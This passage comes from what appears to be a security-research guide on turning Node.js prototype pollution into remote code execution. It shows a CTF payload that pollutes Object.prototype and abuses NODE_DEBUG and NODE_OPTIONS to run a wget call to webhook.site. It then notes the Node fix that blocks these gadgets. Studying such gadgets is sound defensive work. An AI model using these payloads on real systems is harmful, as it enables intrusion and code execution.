 {{#endtab}}

{{#tab name="malicious.js"}}

```javascript
const { fork } = require("child_process");
console.log("Hellooo from malicious");
fork("/path/to/anything");
```

{{#endtab}}
{{#endtabs}}

<br>

### Relative require - 3

Similar to the previous one, this was found in [**this writeup**](https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs).

```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js",
  },
  name: "./usage",
};
Object.prototype["path"] = "/opt/yarn-v1.22.19";
Object.prototype.shell = "node";
Object.prototype["npm_config_global"] = 1;
Object.prototype.env = {
  NODE_DEBUG: "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
  NODE_OPTIONS: "--require=/proc/self/environ",
};

require("./usage.js");
```

## VM Gadgets

In the paper [https://arxiv.org/pdf/2207.11171.pdf](https://arxiv.org/pdf/2207.11171.pdf) is also indicated that the control of **`contextExtensions`** from some methods of the **`vm`** library could be used as a gadget.\
However, as the previous **`child_process`** methods, it has been **fixed** in the latest versions.

## Fixes & Unexpected protections

Please, note that prototype pollution works if the **attribute** of an object that is being accessed is **undefined**. If in the **code** that **attribute** is **set** a **value** you **won't be able to overwrite it**.

In Jun 2022 from [**this commit**](https://github.com/nodejs/node/commit/20b0df1d1eba957ea30ba618528debbe02a97c6a) the var `options` instead of a `{}` is a **`kEmptyObject`**. Which **prevents a prototype pollution** from affecting the **attributes** of **`options`** to obtain RCE.\
At least from v18.4.0 this protection has been **implemented,** and therefore the `spawn` and `spawnSync` **exploits** affecting the methods **no longer work** (if no `options` are used!).
